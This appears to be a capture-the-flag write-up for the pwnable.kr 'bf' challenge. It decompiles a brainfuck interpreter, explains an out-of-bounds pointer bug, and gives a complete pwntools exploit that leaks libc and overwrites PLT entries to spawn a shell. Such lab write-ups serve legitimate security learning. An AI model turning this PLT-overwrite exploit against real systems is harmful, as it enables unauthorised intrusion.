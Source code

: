 # brain fuck

## Description

brain fuck - 150 pt

>I made a simple brain-fuck language emulation program written in C. <br>
>The [ ] commands are not implemented yet. However the rest functionality seems working fine. <br>
>Find a bug and exploit it to get a shell. <br><br>
>Download : http://pwnable.kr/bin/bf <br>
>Download : http://pwnable.kr/bin/bf_libc.so <br><br>
>Running at : nc pwnable.kr 9001

## Background

### Brainfuck

Brainfuck is a simple programming language that consists of 8 commands. It uses a simple a one-dimensional array, a movable data pointer (initialized to point to the start of the array) and two streams of bytes for input and output.

Here are the viable commands: 

|Character|Meaning|
|---------|-------|
| >| 	Increment the data pointer by one|
|<| 	Decrement the data pointer by one |
|+|Increment the byte at the data pointer by one.|
|-|Decrement the byte at the data pointer by one.|
|.|	Output the byte at the data pointer.|
|,|Accept one byte of input, storing its value in the byte at the data pointer.|

The last two commands are irrelevant to the challenge, but you are welcome to [read](https://en.wikipedia.org/wiki/Brainfuck) about them. 

## Solution

### Installation

Usualy I don't explain how to download and run the challenge, but since running it locally isn't as trivial as usual, this time I will.

after `wget`ing both the binary and the libc, in order to make the binary use the libc from the challenge, and not the one on one's computer, they may use `patchelf`, or `pwninit` (which uses `patchelf`, but does all that work for you 🙃).

### Understanding the binary

Let's take a look at the functionality of the binary, using IDA:

**main.c:**
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int i; // [esp+28h] [ebp-40Ch]
  _BYTE v5[1024]; // [esp+2Ch] [ebp-408h] BYREF
  unsigned int v6; // [esp+42Ch] [ebp-8h]

  v6 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  p = (int)&tape;
  puts("welcome to brainfuck testing system!!");
  puts("type some brainfuck instructions except [ ]");
  memset(v5, 0, sizeof(v5));
  fgets(v5, 1024, stdin);
  for ( i = 0; i < strlen(v5); ++i )
    do_brainfuck((char)v5[i]);
  return 0;
}
```

**do_brainfuck:**
```c
int __cdecl do_brainfuck(char a1)
{
  int result; // eax
  _BYTE *v2; // ebx

  result = a1 - 43;
  switch ( a1 )
  {
    case '+':
      result = p;
      ++*(_BYTE *)p;
      break;
    case ',':
      v2 = (_BYTE *)p;
      result = getchar();
      *v2 = result;
      break;
    case '-':
      result = p;
      --*(_BYTE *)p;
      break;
    case '.':
      result = putchar(*(char *)p);
      break;
    case '<':
      result = --p;
      break;
    case '>':
      result = ++p;
      break;
    case '[':
      result = puts("[ and ] not supported.");
      break;
    default:
      return result;
  }
  return result;
}
```

The program saves the address where `tape`, a lable somewhere in the `bss` section, is - at `p`, another location in the `bss` section. It also creates a local buffer of length 1024 bytes, and prompts the user for 1024 bytes of input - saving them in that buffer.

Then, the program iterates through that buffer and, character by character, it sends them to the `do_brainfuck` function. This function is the heart of the program. It moves around the data pointer `p` over at `tape` and inputs/outputs data there, according to the character it got as input.

Basically, this program is a brainfuck interpreter of some sort.

### Exploit

Let's check the security features:

```bash
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8047000)
RUNPATH:  b'.'
```

The NX bit is set, and there are stack canaries. So, trying any shellcode-based exploits won't work.

Let's take a different approach: as can be seen, there's only partial RELRO - this means that we can change the PLT.

Looking at the binary using IDA's A view, it seems that the `tape` is, in fact, very close to the PLT. 

So let's do the following: 
* move `p` to point at one of the libc functions at the PLT - like `puthcar` for example.
* call the function so it's address we'll be loaded correctly at the PLT (lazy loading...)
* leak it using the `.` command
* update some addresses at the PLT: 
    * `putchar` --------> `main`
    * `memset` --------> `gets`
    * `fgets` --------> `system`
* call putchar by giving `.`
* give `fgets` `/bin/sh` as input

If you are wondering why should we do these redirections - recall the calls to `fgets` and `memset` in `main`:

```c
memset(v5, 0, sizeof(v5));
fgets(v5, 1024, stdin);
```

Both functions give the local buffer as the first arguments. After the redirecting of the PLT, `memset` will call `gets` - which will allow us to write to the buffer `/bin/sh`, and `fgets` will call `system` - which will execute `/bin/sh`.

**Side Note:** When I first attempted this challenge, I tried to leak the address of `memset` instead of `putchar` (not sure why). Anyhow, the exploit didn't work and I spent a couple of hours debugging. Then, I noticed that `memset`'s address was *way* off from the other libc functions - which made me realise it was probably linked from another library. 

### Exploit code

```python
from pwn import *

libc = ELF('./bf_libc.so')
conn = remote('pwnable.kr', 9001)

conn.recvuntil(b'except [ ]\n')

# Send payload
payload = '<' * 0x70 + '.' # p ---> putchar @ PLT, call putchar 
payload += '.>' * 0x4  + '<' * 0x4 # leak the address
payload += ',>' * 0x4 + '<' * 0x4 # change putchar @ PLT
payload += '<' * 0x4 + ',>' * 0x4 + '<' * 0x4 # change memset @ PLT
payload += '<' * 0x1c + ',>' * 0x4 # change fgets @ PLT
payload += '.' # call putchar

conn.sendline(payload.encode())

# Get the address of putchar
conn.recv(1)
putchar_addr = int(conn.recv(4)[::-1].hex(), 16)

# Calculate the address of gets and system
gets_addr = (putchar_addr - libc.symbols['putchar']) + libc.symbols['gets']
system_addr = (putchar_addr - libc.symbols['putchar']) + libc.symbols['system']

# Give input to perform redirections
conn.send(p32(0x08048671)) # putchar ----> main
conn.send(p32(gets_addr)) # memset ----> gets
conn.send(p32(system_addr)) # fgets ----> system

# Input for gets
conn.sendline(b'/bin/sh\x00') 

conn.interactive()
```

```bash
welcome to brainfuck testing system!!
type some brainfuck instructions except [ ]
$ cat flag
BrainFuck? what a weird language..
```